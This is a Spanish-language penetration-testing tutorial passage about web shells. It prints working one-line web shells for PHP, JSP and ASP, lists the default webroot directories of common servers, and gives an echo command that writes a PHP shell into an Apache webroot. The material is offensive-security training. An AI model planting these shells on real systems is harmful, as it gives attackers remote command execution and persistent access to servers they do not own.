 El último tipo de shell que tenemos es una **Web Shell**. Una Web Shell es típicamente un script web, como PHP o ASPX, que recibe nuestros comandos a través de parámetros de solicitud HTTP, como los parámetros de las solicitudes **GET** o **POST**, ejecuta nuestro comando y muestra su salida en la página web.

### **Escribiendo una Web Shell**

Primero, necesitamos escribir nuestra web shell, que tomará nuestro comando a través de una solicitud **GET**, lo ejecutará y devolverá su salida. Un script de web shell suele ser muy corto, a menudo una línea de código, y fácil de memorizar. A continuación, se muestran algunos ejemplos comunes de scripts de web shell para lenguajes web populares:

- **PHP**:

    `<?php system($_REQUEST["cmd"]); ?>`
    
- **JSP**:
    
    `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
    
- **ASP**:

    
    `<% eval request("cmd") %>`
    

### **Subiendo una Web Shell**

Una vez que tenemos nuestro script de web shell, necesitamos colocarlo en el directorio web del host remoto (el **webroot**) para poder ejecutarlo a través del navegador. Esto puede hacerse aprovechando una vulnerabilidad en una funcionalidad de carga de archivos, lo que nos permitiría escribir uno de nuestros shells en un archivo, por ejemplo, `shell.php`, subirlo y luego acceder a él para ejecutar comandos.

Si solo tenemos ejecución de comandos remota mediante un exploit, podemos escribir nuestra shell directamente en el webroot para acceder a ella a través del navegador web. El primer paso es identificar dónde está ubicado el webroot. Los siguientes son los directorios webroot predeterminados para servidores web comunes:

|**Servidor Web**|**Webroot Predeterminado**|
|---|---|
|**Apache**|`/var/www/html/`|
|**Nginx**|`/usr/local/nginx/html/`|
|**IIS**|`C:\inetpub\wwwroot\`|
|**XAMPP**|`C:\xampp\htdocs\`|

Podemos comprobar estos directorios para ver cuál se está utilizando como webroot y luego usar el comando `echo` para escribir nuestra web shell. Por ejemplo, si estamos atacando un host Linux que ejecuta Apache, podemos escribir una shell en PHP con el siguiente comando:

bash

Copiar código

`echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`
